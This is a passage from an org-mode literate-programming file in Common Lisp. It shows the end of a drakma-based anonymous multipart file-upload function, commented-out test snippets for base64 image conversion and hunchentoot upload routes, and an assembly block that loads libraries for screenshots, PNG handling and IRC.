               :method :post
               :form-data t
               :content (format nil "--~A
  Content-Disposition: form-data; name=\"file\"; filename=\"~A\"
  Content-Type: application/octet-stream

  ~A
  --~A--" boundary filename content boundary)
               :cookie-jar cookie-jar
               :additional-headers new-headers
               :force-binary t)
            (flex:octets-to-string body-or-stream :external-format :utf-8))))))

  ;; (anon-file-upload "555f.txt" "the content")


  ;; (alexandria:write-string-into-file
  ;;  (cl-base64:usb8-array-to-base64-string
  ;;   (alexandria:read-file-into-byte-vector #P"png.png"))
  ;;  #P"test.txt" :if-exists :supersede :external-format :utf-8)

  ;; (alexandria:write-byte-vector-into-file
  ;;  (cl-base64:base64-string-to-usb8-array
  ;;   (alexandria:read-file-into-string #P"test.txt" :external-format :utf-8))
  ;;  #P"test2" :if-exists :supersede)


  ;; (print (get-cookies-alist cookie-jar))
  ;; (print headers)
  ;; (setf drakma" . "drakma-default-external-format* :UTF-8)

  ;; (in-package :rigidus)

  ;; (ql:quickload "rigidus")

  ;; (restas:define-route upload ("/upload")
  ;;   "<form enctype=\"multipart/form-data\" method=\"post\">
  ;;    <input type=\"file\" name=\"file\">
  ;;    <input type=\"submit\" value=\"Отправить\">
  ;;    </form>")

  ;; (restas:define-route upload-post ("/upload" :method :post)
  ;;   (let ((file-info (hunchentoot:post-parameter "file")))
  ;;     ;; (hunchentoot:escape-for-html
  ;;     ;;  (alexandria:read-file-into-string (first file-info)))
  ;;     (format nil "~A"
  ;;             (bprint file-info))))
#+END_SRC

* Assembly

#+NAME:
#+BEGIN_SRC lisp :tangle srv.lisp :noweb yes
  (ql:quickload "bordeaux-threads")
  (ql:quickload "clx")
  (ql:quickload "zpng")
  (ql:quickload "png-read")
  (ql:quickload "drakma")
  (ql:quickload "cl-ppcre")
  (ql:quickload "cl-base64")
  (ql:quickload "prbs")
  (ql:quickload "cl-irc")
  (ql:quickload "cl-json")

  ;; may be not needed
  <<save_and_load_png>>
  <<binarization>>
  <<make_bit_image>>

  <<irc>>
  <<shot>>
#+END_SRC
